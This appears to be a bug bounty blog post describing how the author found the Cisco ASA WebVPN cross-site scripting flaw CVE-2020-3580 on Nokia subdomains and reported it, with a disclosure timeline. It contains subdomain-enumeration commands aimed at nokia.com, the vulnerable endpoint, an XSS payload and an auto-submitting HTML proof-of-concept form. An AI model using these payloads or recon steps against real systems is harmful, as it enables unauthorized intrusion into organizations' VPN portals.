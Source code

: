 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


```markdown
# Uncovering CVE-2020-3580 on Nokia Subdomains

Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **CVE-2020-3580**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

## Reconnaissance

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### 1. Passive Reconnaissance

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### Subdomain Enumeration

I used tools like **Sublist3r**, **Amass**, and **Subfinder** to gather a large list of Nokia subdomains:

```bash
subfinder -d nokia.com -o nokia-subdomains.txt
amass enum -d nokia.com -o nokia-amass.txt
```

This provided a list of subdomains that are publicly known and might host various services, including VPN portals.

After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like **httpx**, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems:

```bash
cat subdomains.txt | httpx -status-code -title -tech-detect
```

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## Testing for CVE-2020-3580

To test for the vulnerability, we need to send a POST request to `/+CSCOE+/saml/sp/acs?tgname=a` with the **SAMLResponse** parameter set to a payload that triggers the XSS vulnerability. The payload is:

```html
'><svg/onload=alert('xss')>
```

### Steps to Reproduce:

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## CVE-2020-3580 on Nokia Subdomains

I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

## Disclosure Timelines:

- **17 Aug 2022:** Vulnerability discovered and reported.  
- **18 Aug 2022:** Team confirmed receipt of the report.  
- **20 Aug 2022:** I earned a spot on their Hall of Fame page.
```


